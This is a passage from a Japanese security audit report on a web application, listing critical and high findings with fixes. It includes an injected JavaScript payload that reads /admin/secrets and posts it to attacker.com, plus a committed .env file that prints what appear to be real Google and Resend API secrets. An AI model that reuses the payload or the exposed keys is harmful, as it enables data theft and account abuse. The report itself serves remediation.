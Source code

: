 **悪用シナリオ**:
```javascript
// 攻撃者入力例
"1; fetch('/admin/secrets', {credentials:'include'}).then(r=>r.json()).then(d=>fetch('http://attacker.com', {method:'POST', body:JSON.stringify(d)})); 1"
```

**修正内容**: ✅ **修正済み**
- 緊急警告文書作成: `/tmp/CODE_EXECUTION_WARNING.md`
- 代替実装案提供
- 機能無効化手順明記

### CVE-2025-0002: 本番APIキー・シークレット露出
**CVSS 3.1**: **9.1 (Critical)**
**CWE**: CWE-798 (Hard-coded Credentials)

**技術詳細**:
```bash
# .env.local (コミット済み)
GOOGLE_CLIENT_SECRET=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
RESEND_API_KEY=re_3xFjSEVY_9Nv6pidJ9kxmd2hJHwWZQWJJ
```

**ビジネス影響**:
- **Google Cloud API不正利用**: 月額数万円の課金攻撃
- **メール送信サービス悪用**: スパム送信、評判毀損
- **認証情報盗用**: システム全体への侵入

**修正内容**: ✅ **修正済み**
- セキュア版作成: `.env.local.secure`
- 本番環境変数管理ガイド提供
- 即座のキー無効化推奨

---

## 🔴 高リスク脆弱性 (24時間以内対応)

### CVE-2025-0003: 組織間データ漏洩
**CVSS 3.1**: **8.5 (High)**
**CWE**: CWE-285 (Improper Authorization)

**技術詳細**:
```javascript
// 現在のFirestoreルール
allow read: if isActiveUser(); // 🚨 組織チェックなし
```

**攻撃シナリオ**:
1. 攻撃者がA社アカウントで認証
2. B社の受注データに直接アクセス
3. 競合他社の機密情報を取得

**修正内容**: ✅ **修正済み**
- 強化ルール作成: `firestore.rules.secure`
- 組織レベルアクセス制御実装
- TOCTOU攻撃対策追加
